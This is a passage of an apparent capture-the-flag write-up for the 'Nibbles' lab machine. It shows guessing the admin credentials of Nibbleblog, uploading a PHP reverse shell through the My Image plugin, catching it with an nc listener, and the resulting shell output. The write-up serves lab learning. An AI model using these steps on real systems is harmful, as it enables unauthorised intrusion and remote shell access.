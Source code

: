 ![nib-5](https://user-images.githubusercontent.com/87711310/211736965-4b81f53b-96d0-43c5-a98e-116bfb9b3d31.png)

Several important pieces of information are mentioned in the page.
- It’s a code execution vulnerability.
- The vulnerability is in the `My image` plugin that allows the upload of `PHP` files. So it would allow us to upload a `PHP reverse shell`.
- It’s an authenticated vulnerability which means that we need `admin` credentials before we exploit this vulnerability.


After finding the exploit, my next step was to:
- Navigate to the admin login page and figure out the `admin` credentials
- Navigate to the `My Image` plugin page and upload a PHP reverse shell

The admin page could be found here: 

```
http://10.10.10.75/nibbleblog/admin.php
```

As you can see, we need `admin` credentials to get past this login page. The first thing i try is common credentials (admin:admin, admin:nibbles, nibbles:nibbles, nibbles:admin). If this doesn't work, I look out for default credentials online that are specific to this technology.

In this case, the common credentials thing worked. The credentials were `admin:nibbles` 

Now, I navigated to `my image` plugin. Click on `Plugins -> My Image -> Configure`

![nib-6](https://user-images.githubusercontent.com/87711310/211739404-53f609d3-b731-478a-a467-dbd96ce1164a.png)

I, then, headed over to [Pentestmonkey's website](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) to get the code for a `PHP reverse shell`. 

Change the `IP address` and `port` used by your attack machine. Then save it in a file called `image.php` and upload it on the site.

![nib-7](https://user-images.githubusercontent.com/87711310/211739818-e993b76b-3f8a-40bf-a070-9a7586b3f61f.png)

I, then, started a listener on above chose port
```
nc -lvnp 4444
```

Then, I navigated to image I just uploaded to run the reverse shell
```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And, I got a low privileged shell

```bash
┌──(darshan㉿kali)-[~/Desktop]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.75] 55268
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 02:07:48 up 18:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```
